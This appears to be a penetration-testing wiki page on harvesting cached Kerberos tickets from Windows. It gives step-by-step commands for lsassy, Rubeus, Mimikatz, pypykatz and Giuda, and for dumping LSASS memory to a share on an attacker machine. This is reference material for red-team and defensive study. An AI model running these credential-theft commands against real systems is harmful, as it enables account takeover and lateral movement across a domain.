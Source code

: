 ```yaml
---
description: MITRE ATT&CK™ Steal or Forge Kerberos Tickets - Technique T1558
---
```


# Cached Kerberos tickets

## Theory

In Windows, [Kerberos](../../../persistence/kerberos/) tickets are **handled and stored by the** [**lsass** (Local Security Authority Subsystem Service)](lsass/) process, which is responsible for security. Hence, to retrieve tickets from a Windows system, it is necessary to **communicate with lsass and ask for them**. As a **non-administrative user only owned tickets can be fetched**, however, as machine **administrator**, **all** of them can be harvested using tools like **Mimikatz, Rubeus** or **Giuda.**

## Practice

### Enumerate

{% tabs %}
{% tab title="Klist" %}
[Klist](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/klist) is a native Windows tool that can display a list of currently cached Kerberos tickets.&#x20;

```powershell
#Enumerate TGT and TGS
klist tickets

#Enumerate sessions
klist sessions
```
{% endtab %}

{% tab title="Rubeus" %}
[Rubeus](https://github.com/GhostPack/Rubeus) can be use to enumerate tickets&#x20;

```powershell
.\Rubeus.exe triage
```
{% endtab %}
{% endtabs %}

### Dump tickets

{% tabs %}
{% tab title="Unix-Like" %}
From an Unix attacking machine, we can remotely dump tickets using [lsassy](https://github.com/Hackndo/lsassy).

```bash
# With a password
lsassy -d <DOMAIN.LOCAL> -u <USER> -p <PASSWORD> <TARGET> -K '/tmp/kerberos_tickets'

# With PtH
lsassy -d <DOMAIN.LOCAL> -u <USER> -H <NTHash> <TARGET> -K '/tmp/kerberos_tickets'

# With PtT
lsassy -k <TARGET> -K '/tmp/kerberos_tickets'
```

We also can do it manually by dumping LSASS memory using one of [this techniques](lsass/), exfiltrate the dump on our attacking machine, and then retrieve tickets using [pypykatz](https://github.com/skelsec/pypykatz).

```bash
# Example of a dump where Z: is mounted on the attacking host
tasklist /fi "imagename eq lsass.exe"
rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump $lsass_pid Z:\lsass.dmp full

# Get Tickets
pypykatz lsa minidump /path/to/lsass.dmp -k /tmp/kerberos_tickets
```
{% endtab %}

{% tab title="Windows" %}
[Rubeus](https://github.com/GhostPack/Rubeus) can also be use to dump TGTs from the LSASS process

```powershell
# Dump all tickets
.\Rubeus dump

# Dump the interesting one by luid
.\Rubeus.exe dump /service:krbtgt /luid:<luid> /nowrap

# Write ticket to disk
[IO.File]::WriteAllBytes("ticket.kirbi", [Convert]::FromBase64String("<BASE64_TICKET>"))
```

[Mimikatz](https://github.com/gentilkiwi/mimikatz) can be use to dump TGTs from the LSASS process

```
mimikatz # privilege::debug
mimikatz # sekurlsa::tickets /export
```
{% endtab %}
{% endtabs %}



### Ask a TGS

Using tools like **Giuda ,** we can avoid dumping LSASS memory. With the [SeTcbPrivilege](../../../../redteam/privilege-escalation/windows/abusing-tokens.md#setcbprivilege), we can read LSA storage, extract the SESSION KEY from TGT, and forge a request asking for a TGS; We must use LUID instead of Username.

{% tabs %}
{% tab title="Giuda" %}
[Giuda](https://github.com/foxlox/GIUDA) can be use to requests a TGS on behalf of another user (without password)

```powershell
#Request a TGS
.\guida.exe -gettgs -luid:<LogonID> -msdsspn:<SPN>

#Example
.\guida.exe -gettgs -luid:0x1875dc -msdsspn:HOST/dc01.lab.local
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://book.hacktricks.xyz/network-services-pentesting/pentesting-kerberos-88/harvesting-tickets-from-windows" %}

